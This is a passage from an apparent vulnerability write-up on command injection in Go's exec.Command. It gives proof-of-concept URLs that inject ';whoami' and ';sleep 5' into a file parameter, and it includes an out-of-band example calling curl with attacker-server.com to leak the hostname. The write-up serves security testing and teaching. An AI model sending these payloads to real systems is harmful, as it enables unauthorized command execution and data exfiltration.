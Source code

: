 **PoC 1: Executing `whoami` (Non-Blind)**

- **Crafted URL**: `http://localhost:8080/list?file=nonexistent;whoami`
    - `nonexistent`: This is a placeholder filename. `ls -l nonexistent` will likely fail.
    - `;`: This is a shell command separator. It allows a second command to be executed after the first one (whether the first succeeds or fails).
    - `whoami`: This command will print the username of the account under which the Go application is running.
- **Execution**: Open this URL in a web browser or use a tool like `curl`:
    
    ```Bash
    
    curl "http://localhost:8080/list?file=nonexistent;whoami"
    ```
    
- **Expected Output**: The server's HTTP response will likely contain an error message from `ls` for the file "nonexistent," followed by the output of the `whoami` command. For example:
    
    `Command execution failed or partially succeeded: exit status 2
    Output: ls: cannot access 'nonexistent': No such file or directory
    your_username`
    
    The presence of `your_username` (e.g., `root`, `jdoe`) confirms that the `whoami` command was successfully injected and executed.
    

**PoC 2: Time-Based Blind Injection Validation (using `sleep`)**

If the output of the injected command were not directly returned in the HTTP response (a blind command injection scenario), a time-based technique could be used for validation.

- **Crafted URL**: `http://localhost:8080/list?file=nonexistent;sleep%205`
    - `sleep%205`: This injects the `sleep 5` command (URL encoded space `%20`). It instructs the shell to pause for 5 seconds.
- **Execution**:
    
    ```Bash
    
    `time curl "http://localhost:8080/list?file=nonexistent;sleep%205"`
    ```
    
- **Observation**: The `curl` command will take approximately 5 seconds longer to complete than a request without the `sleep` command. This delay confirms that the `sleep 5` command was executed, even if no direct output is visible.

This PoC makes the vulnerability tangible, demonstrating the ease with which an attacker can transition from controlling an input parameter to executing arbitrary commands on the server. The `nonexistent;command` pattern is a common technique to show that even if the intended part of the command fails, the injected portion can still execute. While the provided vulnerable snippet returns output (making it non-blind), understanding how to adapt PoCs for blind scenarios using techniques like `sleep` or out-of-band calls (e.g., `curl http://attacker-server.com/$(hostname)`) is crucial for comprehensive testing.

## **11. Risk Classification**

The risk associated with Go `exec.Command` injection vulnerabilities is typically classified as **High** to **Critical**. This classification is derived from a combination of the likelihood of exploitation and the potential impact.
